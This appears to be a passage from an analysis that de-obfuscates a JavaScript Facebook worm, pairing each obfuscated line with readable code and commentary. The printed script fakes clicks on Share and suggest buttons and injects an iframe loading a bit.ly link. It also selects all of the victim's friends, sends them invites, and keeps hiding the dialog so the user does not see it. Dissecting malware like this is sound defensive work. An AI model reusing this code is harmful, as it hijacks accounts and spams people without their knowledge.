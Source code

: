 /* It looks like the wouse event is going to be a 'click' event. */

//void sl[v[9]](c);inp=document[v[17]](v[15]);
sl.dispatchEvent(c);
/* And we've just made our first click. */
var inp = document.getElementsByTagName('input');
/* Wait, there are some inputs on the page... */

//void setTimeout(function (){for(i in inp){if(inp[i][_0x8a00[22]]==v[16])
//{inp[i][v[9]](c);} ;} ;} ,11000);
setTimeout(function () {
    for (i in inp) {
        if (inp[i].parentNode == 'Share') {
            inp[i].dispatchEvent(c);
        }
    }
} ,11000);
/*
 * So, wait 11 seconds, and click on the input that has 'Share' next to it.
 * It seems using '==' instead of the usual '===' is the key here :)
 */

//void setTimeout(function (){ss[v[9]](c);} ,2500);
setTimeout(function () {
    ss.dispatchEvent(c);
} ,2500);
/* After two and a half seconds, we feel the need to click on the 'suggest' button. */

//void setTimeout(function (){document[v[2]](v[1])[v[0]]=_0x8a00[23];} ,3000);
setTimeout(function () {
    document.getElementById('app4949752878_body').innerHTML =
        '<iframe ' +
            'src="http://bit.ly/dwDcvU" ' +
            'frameborder="0" ' +
            'width="520" ' +
            'height="800" ' +
            'scrolling="no">' +
        '</iframe>';
}, 3000);
/* Insert an iframe. I'll get back to this later. */

//void setTimeout(function (){fs[v[10]]();} ,8000);
setTimeout(function () {
    fs.select_all();
}, 8000);
/* Not sure where is the 'fs' object coming from, */
/* but it seems it is selecting our friends. */

//void setTimeout(function (){SocialGraphManager[v[13]](v[11],v[12]);} ,9000);
setTimeout(function () {
    SocialGraphManager.submitDialog(
        '/ajax/social_graph/invite_dialog.php',
        'sgm_invite_form'
    );
}, 9000);
/* Wait, we've just sent out the suggests. But why didn't the user notuce this? */

//function a(){if(1==1){window[_0x8a00[25]](_0x8a00[24],10);d[_0x8a00[2]](_0x8a00[29]
//)[_0x8a00[28]][_0x8a00[28]][_0x8a00[27]][_0x8a00[26]]=_0x8a00[30];} ;} ;a();
function a() {
    if (1==1) {
        window.setTimeout('a()', 10);
        document.getElementById('pop_content').parentNode.parentNode.style.display = 'none';
        /* Ah, this is why. We hide the whole damn dialog, once every 10 milliseconds. */
    }
};
a();